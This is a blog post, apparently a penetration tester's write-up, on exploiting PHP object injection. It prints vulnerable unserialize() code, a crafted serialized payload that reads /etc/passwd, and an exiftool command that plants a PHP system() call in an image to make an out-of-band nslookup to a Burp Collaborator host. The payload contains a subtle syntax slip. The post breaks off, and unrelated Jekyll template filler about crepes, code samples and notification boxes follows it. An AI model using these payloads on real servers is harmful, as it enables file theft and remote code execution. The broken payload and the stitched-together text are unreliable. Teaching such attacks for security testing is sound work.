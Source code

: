 ```yaml
---
layout: 
title: PHPObjectInjection
subtitle: LFI to RCE
# gh-repo: daattali/beautiful-jekyll
gh-badge: [star, fork, follow]
tags: [WebAppVulnerabilities, Pentesting]
comments: true
---
```


Hello bug-hunters, today we are gonna talk about PHPObjectInjection and leveraging the power of Reflection to modify the serialized objects and access any arbitrary files from the server, later we will learn how to convert it into a RCE (Remote Code Execution). let the hunt begin;

## What is PHPObjectInjection?

Before we talk about the attack, let's undertsand what is Serialization? I hope you must be havinga an idea around it, lets have a revision,  

Serialization is basically converting a set of data structure or the objects into a stream of bytes to transmit it to a memory, a database, or a file. The main advantage of this technology is to save the state of an object in order to be able to recreate it whenever needed, eg. video games, etc.

**Areas of Risks**

Along with the advantage this technology also has its disadvantages. This vulnerability could occur when a user-supplied input is not appropriately sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, a malacious actor could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability the following two conditions must be met:

  1. The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
  2. All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes.

## Attack Story

During a recent Pen Test I came across an interesting piece of PHP code that could lead to RCE, but the exploitation was bit tricky. After spending some sleepless nights trying to break this code, I identified that both application and system level code execution was possible using the vulnerability.

The vulnerable Code:

    /*<?php
  class HTMLFile
  {
    public $filename='help.html';
    public $bla =  1;
    public function __toString()
    {
        return '<iframe src=' . $this->filename ."></iframe>";
    }
  }
  class IncludeFile
  {
    public $filename = '';
    public function __toString()
    {
        include $this->filename;
        return "<br /><br />";
    }
  }
    if (isset($_GET['file'])){
    $htmlobject = unserialize(base64_decode($_GET['file']));
  } else {
    $htmlobject = new HTMLFile();
  }
  ?> 
    <?php echo $htmlobject; ?>*/

In the above code, a user controlled value can be passed on to a PHP un-serialization function. The application accepts a "filename" which gets called, and the output is then fed to php unserialize module. With the above bug both application level and system level code executions is possible. For exploiting this vulenarability both the conditions are satisfied. 

**Serialization example:**

Serializing a 3 char string array

![] (https://github.com/InfoSecAntara/theantaramane/assets/sample_serializled_code.png)

**Understanding the serialized string**

![] (https://github.com/InfoSecAntara/theantaramane/assets/understanding_serialzed.png)


In our case, I found an instance where the "file" parameter was carrying a base64 encoded payload, later identified to be a serialized object as following;

![](https://github.com/InfoSecAntara/theantaramane/assets/instance.png)

Deserialized form:

"O:8:"HTMLFile":1:{s:8:"filename";s:9:"help.html";}"

At the response side if you'd see, we have another code which has class named "IncludeFile" a vulnerable function "filename" and a magic function "function __toString()", let's make our own payload

This is our payload; pretty easy to understand, I have just replaced the class name, make sure the string char lengths are exactly matching to that string name as follows;

O:11:"IncludeFile":1:{s:8:"filename";s11:"/etc/passwd";}

This is cool, let's base64 encode; and boomm!! it worked

![](https://github.com/InfoSecAntara/theantaramane/assets/etc_passwd.png)

Using the power of reflection we were able to modify the serialized objects and access any arbitrary files from the server!! Ins't this amazing?? 

Let's move on to RCE!

So I had a file upload functionality, and this functionality only allows the image filesto be uploaded, how this can e tirned into a Remote Code Execution??

  1. Create an Image file with PHP code using exif or any other image utility tool 
  2. Upoad the file and locate the path
  3. Utilize LFI include image file and make an Out of Band call to confirm the code execution

We will be using exif tool with the following command:

"exiftool -Comment='<?php system("nslookup 4lqd7k2ulofzkiwzv0m5gf7qohu8ix.burpcollaborator.net"); ?>' beingsecure.jpeg"




How about a yummy crepe?

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg)

It can also be centered!

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg){: .mx-auto.d-block :}

Here's a code chunk:

~~~
var foo = function(x) {
  return(x + 5);
}
foo(3)
~~~

And here is the same code with syntax highlighting:

```javascript
var foo = function(x) {
  return(x + 5);
}
foo(3)
```

And here is the same code yet again but with line numbers:

{% highlight javascript linenos %}
var foo = function(x) {
  return(x + 5);
}
foo(3)
{% endhighlight %}

## Boxes
You can add notification, warning and error boxes like this:

### Notification

{: .box-note}
**Note:** This is a notification box.

### Warning

{: .box-warning}
**Warning:** This is a warning box.

### Error

{: .box-error}
**Error:** This is an error box.

